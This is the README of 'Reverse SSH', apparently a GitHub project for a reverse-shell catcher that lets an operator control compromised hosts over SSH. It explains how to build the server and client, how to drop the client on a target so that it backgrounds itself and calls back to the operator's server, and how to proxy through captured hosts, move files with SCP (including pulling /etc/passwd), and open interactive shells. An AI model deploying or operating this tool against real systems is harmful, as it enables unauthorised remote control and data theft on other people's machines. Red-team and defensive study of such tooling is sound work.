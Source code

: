 # Reverse SSH

Ever wanted to use SSH to talk to your reverse shells? Well now you can. Essentially works like any reverse shell catcher thing. 
You, the human client connect to the reverse shell catcher with ssh, and then select which remote host you want to connect to. 

```
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+ Shelled |
                    |    Reverse     |       |         |  Client |
                    |  Connection    |       |         |         |
                    |    Catcher     |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |         |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         | Shelled |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         | Shelled |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```


## Setup Instructions

Depending on the platform that you're building the server and client for. You may need to change the GOOS and GOARCH enviroment variables. E.g building for linux:
```
GOOS=linux GOARCH=amd64 make
```

Make will build both the `client` and `server` binaries. If you're dropping the `client` binary on a target with a different architecture you will need to change this.

The server will automatically generate a private key on first use. Or you can specify one with `--key`. You will need to create an `authorized_keys` file, containing *your* public key. 
This will allow the server to authenticate you, to allow you to control whatever reverse shell connections it catches. 
```
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control. 
```
./client yourserver.com:3232
```

This will cause the client to fork into the background. If you want to montior the output for debugging purposes specify `--foreground`.  
The client will attempt to detect shells such as bash, ash, sh and execute one of those if possible. If it cant find one. Then you will be asked to enter in a path.

Then connect to your reverse shell catcher server:

```
ssh yourserver.com -p 3232
```

## Features

### Proxy

Using just the general dynamical forward `-D` flag you can proxy to your controlled hosts.

First you connect to your reverse shell catcher.

```
ssh -D 9050 catcher.com -p 3232
```

Then use the `proxy connect <remote_id>` command to connect to your reverse shell. 

```
catcher$ proxy connect 0bda3b12d3ce83f895632d412261073dc93dba3e 
Connected: 0bda3b12d3ce83f895632d412261073dc93dba3e
catcher$ 
```
After this, just point your tools/web browser to the socks5 port open on your local machine (in this example on port 9050) and you're away laughing.

You can obviously only proxy to one host at a time.


### SCP

You can transfer files to and from your controlled hosts using SCP. Essentially you address which host you want to download/upload to by `<ip_address>:<remote_id>:/path/here`.

e.g to upload the directory test to the host `0be2782caae4bedff780e14526f7618ab61e24fa`:
```
scp -r -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:$(pwd -P)/test2
```

Or to download `/etc/passwd` from a host:

```
scp -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:/etc/passwd
```

### Shell

On connection you will be presented by a list of controllable clients, e.g:
```
               Targets
----------------------------------------------------------
| ID                                       | IP Address  |
----------------------------------------------------------
| aee61d906398fde43034e7986ed1ee2f94bb0bf2 | [::1]:38228 |
----------------------------------------------------------
| fce2b96df94f6e0e33aab7951e2142a378df9148 | [::1]:38232 |
----------------------------------------------------------
catcher$ 
```

Use `help` or press `tab` to view commands.  
Tab will auto complete entries. 
So you you wanted to connect to the client given in the example: 
```
> connect a<TAB>
```
Will auto complete the entry for you and on enter will connect you to your reverse shell. 

## Limitations

This doesnt work entirely correctly for windows programs, due to limitations of the windows platform. But you can still run commands. 
Although they might not end properly, or be ctrl+c-able

